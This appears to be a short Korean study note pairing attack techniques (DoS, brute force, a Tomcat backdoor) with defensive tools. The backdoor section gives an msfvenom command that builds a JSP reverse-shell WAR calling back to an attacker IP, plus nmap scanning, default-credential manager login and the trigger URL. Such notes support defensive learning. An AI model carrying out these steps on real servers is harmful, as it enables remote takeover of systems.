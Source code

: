 # 공격기법: DOS공격
## 공격툴: slowhttp in kali-linux-2025
# 대응방법: fault tolerence
## 방어툴: k8s의 replicaset 기능 
---
# 공격기법: Brute Force Attack (무차별 대입 공격)
## 공격툴: HUB(device), nmap&hydra in kali-linux-2025
# 대응방법: IDS(snort), IPS(fail2ban, port-security)
## 방어툴1: IPS(port-security)
## 방어툴2: IPS(fail2ban)
## 방어툴3: IDS(snort)
---
# 공격기법: Backdoor
## 공격툴: nmap&msfvenom in kali-linux-2025
kalilinux-2025 안에서 명령어 3줄이면 ReverseShell 파일을 심는 Malware 공격할 수 있다. 단, ApacheTomcat 생서 처음에만 먹히는 공격이다. 초기 비밀번호를 잘 관리하면 방어할 수 있다.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<공격자 IP 주소> LPORT=4444 -f war > shell.wa
nmap -sV -sC <타겟 IP 주소>
tomcat 으로 기본값으로 manager 로그인 시도
http://<타겟 IP>:8080/shell/ ##실행됨
